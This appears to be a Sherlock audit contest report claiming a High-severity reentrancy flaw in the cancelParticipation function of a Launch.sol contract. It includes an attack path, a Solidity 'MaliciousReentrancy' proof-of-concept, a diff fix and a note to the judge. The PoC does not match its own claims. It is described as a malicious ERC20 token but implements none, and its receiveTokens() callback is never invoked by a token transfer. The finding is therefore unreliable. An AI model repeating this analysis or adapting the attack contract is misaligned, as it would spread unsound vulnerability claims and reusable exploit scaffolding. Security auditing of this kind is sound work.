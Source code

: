 Quick Grape Wallaby

High

# [H-01] CEI Violation in cancelParticipation Function Leading to Potential Reentrancy Risk

### Summary

The improper order of operations in `cancelParticipation()` violates the Checks-Effects-Interactions (CEI) pattern. Specifically, an external call to an ERC20 token transfer (`safeTransfer`) occurs before updating participation state. This could allow a malicious ERC20 token to trigger a reentrancy attack, potentially enabling unauthorized participation without sending tokens or manipulating protocol state.

refer: [`Launch.sol::cancelParticipation`](https://github.com/sherlock-audit/2025-02-rova/blob/main/rova-contracts/src/Launch.sol#L404)

### Root Cause

- In `Launch.sol`, the `cancelParticipation` function executes an external call (`safeTransfer`) **before** updating the state of `info.tokenAmount` and `info.currencyAmount`.

- If a malicious ERC20 token is used, it can execute arbitrary logic in its `safeTransfer` function, potentially leading to reentrancy or unexpected interactions.

### Internal Pre-conditions

1. A user or attacker holds participation in a launch group and requests cancellation via `cancelParticipation()`.
2. The `info.currency` used for participation is a malicious ERC20 token with a custom `safeTransfer` implementation.
3. The contract relies on `safeTransfer` for sending refunds before clearing participation state.

### External Pre-conditions

1. The attacker deploys a malicious ERC20 token with a `safeTransfer` function that executes a callback.
2. The attacker registers the malicious ERC20 in the launch group as a valid currency.
3. The contract does not verify the ERC20 token behavior before interacting with it.

### Attack Path

1. The attacker participates in a launch using a malicious ERC20 token.
2. The attacker calls `cancelParticipation()`.
3. The function calls `safeTransfer()`, transferring the token before resetting `info.tokenAmount` and `info.currencyAmount`.
4. The malicious ERC20 token executes a callback that reenters the contract and calls another function (e.g., `participate()`) before state is cleared.
5. The attacker manipulates participation status, potentially increasing their allocation or double-spending funds.

### Impact

- Affected Party: Protocol and Participants

- Loss: The protocol may allow attackers to participate without proper funds or manipulate their allocations.

- Protocol Disruption: The attack could lead to unauthorized participation, incorrect fund tracking, or other unexpected behavior.

### PoC

Below is a **malicious** ERC20 token that exploits the CEI violation by executing a callback function inside safeTransfer to reenter the contract:

This proof-of-concept contract:

1. Calls participate() first.
2. Calls cancelParticipation(), which transfers tokens back.
3. On receiving tokens, the fallback function (receiveTokens()) re-enters participate(), increasing participation before the original function resets the values.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

interface ILaunchContract {
    function participate(
        ParticipationRequest calldata request,
        bytes calldata signature
    ) external;

    function cancelParticipation(
        CancelParticipationRequest calldata request,
        bytes calldata signature
    ) external;
}

struct ParticipationRequest {
    uint256 chainId;
    bytes32 launchId;
    bytes32 launchGroupId;
    bytes32 launchParticipationId;
    bytes32 userId;
    address userAddress;
    uint256 tokenAmount;
    address currency;
    uint256 requestExpiresAt;
}

struct CancelParticipationRequest {
    uint256 chainId;
    bytes32 launchId;
    bytes32 launchGroupId;
    bytes32 launchParticipationId;
    bytes32 userId;
    address userAddress;
    uint256 requestExpiresAt;
}

contract MaliciousReentrancy {
    ILaunchContract public launchContract;
    IERC20 public token;
    bytes public signature;
    ParticipationRequest public participationRequest;
    CancelParticipationRequest public cancelRequest;

    constructor(address _launchContract, address _token) {
        launchContract = ILaunchContract(_launchContract);
        token = IERC20(_token);
    }

    function attack(bytes calldata _signature) external {
        signature = _signature;

        // Step 1: Participate with an initial amount
        launchContract.participate(participationRequest, signature);

        // Step 2: Cancel participation, which will trigger the reentrancy attack
        launchContract.cancelParticipation(cancelRequest, signature);
    }

    function receiveTokens() external {
        // Step 3: Re-enter `participate()` while `cancelParticipation()` is still executing
        launchContract.participate(participationRequest, signature);
    }
}
```

### Mitigation

Follow the CEI Pattern:
Move state updates **before** making the external call:
```diff
// Reset participation info BEFORE external call
+ info.tokenAmount = 0;
+ info.currencyAmount = 0;

// Transfer payment currency from contract to user
IERC20(info.currency).safeTransfer(info.userAddress, refundCurrencyAmount);

- info.tokenAmount = 0;
- info.currencyAmount = 0;
```


**Notes to Judge:**
Hi dear Sherlock judge,

This is my second time participating in a competitive audit, and I hope you find my report well-prepared and in accordance with the rules and requirements outlined in the Sherlock audit guidelines.

If there are any areas where I’ve fallen short, I would greatly appreciate detailed feedback to ensure I improve in future reports. Of course, I completely understand if your schedule doesn’t allow for extensive feedback given the number of reports you have to review.

Wishing you a great day! Sending virtual cookies your way 🍪😊
